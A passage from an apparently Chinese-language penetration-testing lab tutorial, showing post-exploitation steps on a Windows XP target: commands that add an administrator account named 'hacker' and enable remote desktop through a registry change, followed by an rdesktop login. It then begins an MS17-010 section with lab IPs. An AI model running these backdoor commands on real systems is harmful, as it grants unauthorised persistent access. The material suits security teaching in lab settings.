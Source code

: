 ![](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677047460-a4376b7b816e75657bc9d719789decd1.jpg)

显示结果下图所示：

![](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677047460-ad5a2442016ae352e7289dd375f461a4.jpg)

第七步，对目标 XP 主机进行深度提权。

```shell
# 增加普通用户
net user hacker 123456 /add
# 提升管理员权限
net localgroup administrators hacker /add
```

![](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677047460-eadd77184ee76f93bbe79698205b8687.jpg)

此时被攻击的主机新增 `hacker` 管理员如下图所示：

![](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677047460-a44241c3735bc8b97427e87a0a515b64.jpg)

第八步，开启远程连接 3389 端口并进行远程操作。

```shell
# 开启远程连接
echo reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f > C:\WINDOWS\system32\3389.bat && call 3389.bat
# 查看网络端口
netstat -an
# 远程连接
rdesktop 192.168.44.135
```

首先查看端口，发现目标主机 Windows XP 并未开启 3389 端口。

![](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677047460-0ce75c1dcbd7a07ca06a06f959cc22cf.jpg)

输入命令开启远程连接端口。

![](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677047460-518f417edbadea1bd93da7504db511c9.jpg)

接着输入 `rdesktop 192.168.44.135` 连接远程 IP 地址，并输入我们创建好的 hacker 用户名及密码。

![](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677047460-939fd0b6922641ea9a8480caf34a7648.jpg)

输入创建的用户名 hacker 和密码 123456 回车，弹出提示框点击 OK，稍等就会成功远程登录 XP 系统。

![](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677047460-d9b2cf06fb0caebc57661308e5f8ef4a.jpg)

### 3.2 ms17-010 漏洞

#### 3.2.1 准备工作

-   靶机：Windows server（IP:192.168.178.128）
-   攻击机：Kali（IP:192.168.178.131）
